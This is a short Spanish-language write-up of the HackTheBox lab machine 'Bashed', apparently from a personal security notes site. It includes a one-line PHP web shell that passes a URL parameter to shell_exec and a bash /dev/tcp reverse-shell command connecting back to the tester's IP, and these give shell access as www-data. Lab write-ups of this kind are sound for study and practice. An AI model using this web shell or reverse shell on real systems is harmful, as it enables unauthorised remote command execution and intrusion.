

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/bashed/index.html · generator: mkdocs

# Bashed

10.129.34.196

![](../../assets/img/Pasted_image_20260108101434.png)

Launchpad -> Xenial

![](../../assets/img/Pasted_image_20260108131353.png)

Hay un archivo expuesto *10.129.34.196/dev/phpbash.php* que es una consola interactiva xd
Accedemos a la carpeta *var/www/html/uploads* que tiene permisos 777 para hacer maldades
Nos montamos un servidor en nuestra máquina con
```bash
python3 -m http.server
```

Para subir una archivo en php que interprete desde la web
```php
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
```

Accedemos al recurso lanzándonos una shell con el oneliner /dev/tcp
```bash
10.129.34.196/uploads/shell.php?cmd=bash -c "bash -i >%26/dev/tcp/10.10.17.61/4444 0>%261"
```

**www-data**
